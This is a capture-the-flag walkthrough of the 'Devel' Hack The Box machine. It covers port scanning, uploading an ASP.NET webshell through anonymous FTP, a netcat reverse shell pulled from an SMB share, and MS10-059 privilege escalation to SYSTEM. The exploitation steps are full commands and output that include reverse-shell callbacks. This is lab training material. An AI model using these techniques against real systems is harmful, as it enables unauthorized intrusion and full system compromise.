 # [devel](https://app.hackthebox.com/machines/3)

> A Windows machine serving a Microsoft FTP server that allows anonymous write access to its IIS web root. By writing an ASP.NET webshell into the web root via this anonymous access, a low-privilege shell can be obtained. The machine's operating system is vulnerable jto MS10-059, which can be exploited for a shell as `NT Authority\SYSTEM`.

---

## Open Port Enumeration

The target is serving TCP ports 21 and 80.

```bash
$ sudo masscan -p1-65535 10.129.151.103 --rate=1000 -e tun0 --output-format grepable --output-filename enum/devel.masscan
$ cat enum/devel.masscan  | grep open | cut -d' ' -f5 | cut -d'/' -f1 | sort -u | tr '\n' ','
21,80, 
```

The target's operating system appears to be Windows. On port 21, its FTP server allows anonymous access to what appears to be the web server root. On port 80, its web server appears to be IIS.

```bash
$ sudo nmap -sC -sV -O -p21,80 10.129.151.103 -oA enum/devel
Starting Nmap 7.91 ( https://nmap.org ) at 2022-02-03 15:39 UTC
Nmap scan report for 10.129.151.103
Host is up (0.018s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 03-17-17  04:37PM                  689 iisstart.htm
|_03-17-17  04:37PM               184946 welcome.png
| ftp-syst:
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: phone|general purpose|specialized
Running (JUST GUESSING): Microsoft Windows Phone|2008|7|8.1|Vista|2012 (92%)
OS CPE: cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2012
Aggressive OS guesses: Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (91%), Microsoft Windows Vista SP2 (91%), Microsoft Windows Vista SP2, Windows 7 SP1, or Windows Server 2008 (90%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.75 seconds
```

---

## Upload to Webshell Web Root via FTP

The target's FTP server appears to be serving the IIS web root on port 80.

```txt
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 03-17-17  04:37PM                  689 iisstart.htm
|_03-17-17  04:37PM               184946 welcome.png
```

![](images/Pasted%20image%2020220203154618.png)

![](images/Pasted%20image%2020220203154643.png)

The anonymous user has write access to the web root.

```bash
$ touch notes.txt
$ ftp
ftp> open 10.129.151.103
Connected to 10.129.151.103.
220 Microsoft FTP Service
Name (10.129.151.103:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> put notes.txt
local: notes.txt remote: notes.txt
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  01:06AM       <DIR>          aspnet_client
03-17-17  04:37PM                  689 iisstart.htm
02-03-22  05:48PM                    0 notes.txt
03-17-17  04:37PM               184946 welcome.png
226 Transfer complete.
ftp> del notes.txt
250 DELE command successful.
```

Write the ASP.NET webshell from `/usr/share/webshells/aspx/cmdasp.aspx` (on Kali) to the web root via FTP.

```bash
$ cp /usr/share/webshells/aspx/cmdasp.aspx .
$ mv cmdasp.aspx tgihf.aspx
$ ftp 10.129.151.103
Connected to 10.129.151.103.
220 Microsoft FTP Service
Name (10.129.151.103:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> put tgihf.aspx
local: tgihf.aspx remote: tgihf.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1442 bytes sent in 0.00 secs (32.7428 MB/s)
```

Navigate to the webshell in a browser.

![](images/Pasted%20image%2020220203160159.png)

Start a `netcat` listener and serve a Windows `netcat` binary on an SMB share.

```bash
$ sudo nc -nlvp 443
listening on [any] 443 ...
```

```bash
$ sudo impacket-smbserver tgihf /usr/share/windows-binaries/ -smb2support
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Execute the following command in the webshell:

```batch
\\10.10.14.139\tgihf\nc.exe -nv 10.10.14.139 443 -e cmd.exe
```

Receive the reverse shell as the `iis appool\web` user.

```batch
$ sudo nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.139] from (UNKNOWN) [10.129.151.103] 49159
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
iis apppool\web
```

---

## MS10-059 Privilege Escalation

According to [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester), the target may have several local privilege escalation vulnerabilities, including MS10-059.

```bash
$ python /opt/Windows-Exploit-Suggester/windows-exploit-suggester.py --database /opt/Windows-Exploit-Suggester/2022-02-03-mssb.xls --systeminfo systeminfo.txt
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (utf-8)
[*] querying database file for potential vulnerabilities
[*] comparing the 0 hotfix(es) against the 179 potential bulletins(s) with a database of 137 known exploits
[*] there are now 179 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 7 32-bit'
[*]
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC
[*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5.0 Bypass (MS12-037), PoC
[*]
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-015: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (977165) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[*] done
```

Stage the exploit binary from [the Windows Kernel Exploits Githug repository](https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS10-059/MS10-059.exe) to the target.

Start a `netcat` listener on the attacking machine.

```bash
$ sudo nc -nlvp 53
listening on [any] 53 ...
```

Run the exploit with the IP address and port of the reverse shell listener on the attacking machine.

```batch
c:\inetpub\wwwroot>.\MS10-059.exe 10.10.14.139 53
```

```bash
$ sudo nc -nlvp 53
listening on [any] 53 ...
connect to [10.10.14.139] from (UNKNOWN) [10.129.151.103] 49175
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\inetpub\wwwroot>whoami
whoami
nt authority\system
```
